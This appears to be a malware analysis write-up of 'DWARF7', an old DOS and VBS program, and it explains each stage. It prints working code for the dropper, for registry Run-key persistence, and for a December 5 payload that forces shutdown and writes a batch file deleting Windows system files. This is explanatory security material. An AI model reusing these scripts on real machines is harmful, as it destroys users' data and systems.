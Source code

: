 
**Analysis of DWARF7 Malware**

### Introduction

DWARF7 is a DOS assembly malware that runs on Windows and operates in two phases. It creates two VBS (Visual Basic Script) files: **Dwarf.vbs** and **Panda.vbs**. Its purpose is to schedule the execution of a malicious script on December 5th, which modifies the system and attempts to delete critical files.

### Code Breakdown

The malware follows these steps:

#### 1. Creating Malicious Files

The program first creates two files on the disk:

-   **Dwarf.vbs** in `C:\`
-   **Panda.vbs** in `C:\WINDOWS\`

This is done using DOS interrupt `int 21h`, with the following services:

-   `3Ch` to create a file
-   `40h` to write to the file
-   `3Eh` to close the file

```assembly
FILE1:  mov ah,3Ch  ; Create file
        xor cx,cx
        mov dx,offset NOM1  ; C:\Dwarf.vbs
        int 21h  
        xchg ax,bx
        mov ah,40h  ; Write
        mov cx,progl1
        mov dx,offset prog1
        int 21h
        mov ah,3Eh  ; Close
        int 21h
```

#### 2. Content of Dwarf.vbs

The **Dwarf.vbs** file contains Visual Basic Script code that displays a message and registers **Panda.vbs** in the Windows registry to execute it at every startup.

```vbs
msgbox "BONNE JOURNÉE ?",vbexclamation
Dim W
Set W = Wscript.CreateObject("WScript.Shell")
W.Regwrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Run\DwArF", "C:\WINDOWS\Panda.vbs"
```

#### 3. Delayed Execution of Panda.vbs

The **Panda.vbs** file is designed to activate only on **December 5th**. This script:

-   Displays a fake error message
    
-   Adds a registry key to shut down the computer on the next startup
    
-   Creates a `C:\autoexe.bat` file that deletes system files upon reboot

```vbs
If Day(Now) = 5 And Month(Now) = 12 Then
    msgbox "ERREUR : CLIQUEZ SUR OK",vbcritical
    Dim W
    Set W=CreateObject("WScript.Shell")
    W.Regwrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Run\DwArF", "C:\WINDOWS\RUNDLL32.EXE %windir%\system\user.exe,Exitwindows"
    W.Regwrite "HKLM\Software\Microsoft\Windows\CurrentVersion\Run\DwArF2", "C:\autoexe.bat"
    Set X=CreateObject("Scripting.FileSystemObject")
    file="C:\autoexe.bat"
    Set O=X.CreateTextFile(file, True, False)
    O.Writeline "@echo off"
    O.Writeline "del C:\WINDOWS\*.ini"
    O.Writeline "del C:\WINDOWS\*.sys"
    O.Writeline "del C:\WINDOWS\*.bmp"
    O.Writeline "del C:\WINDOWS\COMMAND\*.*"
    O.Writeline "del C:\WINDOWS\SYSTEM\*.dll"
    msgbox "YOU WILL DIE TOMORROW",vbinformation
End If
```

### Malware Impact

1.  **Automatic Execution**: By adding `Panda.vbs` to the registry, it ensures it runs at every startup.
    
2.  **File Deletion**: Deleting essential Windows files can render the computer inoperable.
    
3.  **Psychological Threat**: The displayed messages aim to intimidate the user.
    
4.  **System Shutdown**: The registry key forcing Windows shutdown makes the computer unusable after the attack.
    

### Conclusion

DWARF7 is a simple but effective malware that exploits VBS and the Windows registry to propagate and destroy files. While it was designed in 2000, similar techniques can still be encountered today. Increased vigilance and the use of antivirus software are essential to prevent such threats.
